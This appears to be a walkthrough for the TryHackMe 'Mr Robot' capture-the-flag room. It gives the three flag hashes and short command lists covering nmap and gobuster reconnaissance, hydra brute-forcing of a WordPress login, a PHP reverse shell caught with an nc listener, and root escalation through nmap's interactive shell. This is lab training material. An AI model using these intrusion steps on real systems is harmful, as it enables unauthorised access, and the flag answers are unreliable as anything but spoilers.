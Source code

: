 
# <div align="center">[Mr Robot CTF](https://tryhackme.com/r/room/mrrobot)</div>
<div align="center">
<img src="https://github.com/user-attachments/assets/0b4d4b9c-feba-48dc-8665-347ffd05967b" height="200"></img>
</div>


## Task 1. Connect to our network
```
No need
```

## Task 2. Hack the machine

Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

Credit to Leon Johnson for creating this machine. This machine is used here with the explicit permission of the creator <3 

<div align="center">
<img src="https://github.com/user-attachments/assets/bed7ecc6-a979-4f07-bb89-26c1d971ad51" height="200"></img>
</div>

### Key 1
```
073403c8a58a1f80d943455fb30724b9
```
```
nmap -sC -sV -Pn <IP>
gobuster dir --url http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
http://<IP>/robots.txt
cat robots.txt
cat password.raw-md5
# abcdefghijklmnopqrstuvwxyz
su robot
cat key-1-of-3.txt
```
### Key 2
```
822c73956184f694993bede3eb39f959
```
```
http://<IP>/wp-login.php
hydra -L fsocity.dic -p 123453453 {IP} http-post-form “/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username”
http://<IP>/license
echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
# elliot:ER28–0652
https://github.com/pentestmonkey/php-reverse-shell
nc -lnvp 4444
python -c ‘import pty;pty.spawn(“/bin/bash”)’
cat /home/robot/key-2-of-3.txt
```
### Key 3
```
04787ddef27c3dee1ee161b21670b4e4
```
```
sudo -l
find / -perm -u=s -type f 2>/dev/null
nmap --interactive
!sh
cat key-3-of-3.txt
```
```
04787ddef27c3dee1ee161b21670b4e4
```
